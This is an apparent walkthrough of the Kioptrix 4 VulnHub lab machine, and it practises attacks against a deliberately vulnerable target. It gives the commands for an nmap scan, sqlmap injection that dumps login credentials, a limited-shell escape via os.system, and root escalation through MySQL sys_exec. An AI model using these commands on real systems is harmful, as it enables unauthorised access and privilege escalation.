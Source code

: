 ### target:					kioptrix4 by Kioptrix Team

### hosted by:				vulnhub.com

### virtualization software:	virtualbox

### testing platform:		kali linux 2017

###walkthrough by:			worzel_gummidge



the attacker uses **nmap** to discover *tcp22*, *tcp80*, *tcp139* and *tcp445* are open.

```bash
nmap 192.168.56.103 -A -n -T5 -p1-65535
```



after the attacker uses **burp** to capture the login request on the target website, the request file is fed into **sqlmap**. the *password* parameter is injectable and the attacker is able to access login credentials.

![screenshot: manually injecting a login page](assets/1.png "manual sql injection")

```bash
sqlmap -r sql1.txt --risk 3 --level 5 --dump-all
```



the credentials are used to log in to the target machine via *ssh*. the attacker has a limited shell. the attacker is able to break out of the limited shell issuing the followung command:

```bash
echo os.system("/bin/bash")
```

![screenshot: attacker escapes limited shell](assets/2.png "we have a full shell")



the attacker finds mysql credentials and uses them to add his/ her current user *john* to the admin group.

```bash
mysql -h loacalhost -u root -p
```

```mysql
select sys_exec('usermod -a -G admin john')
```

![screenshot: congrats.txt](assets/3.png "we have root!")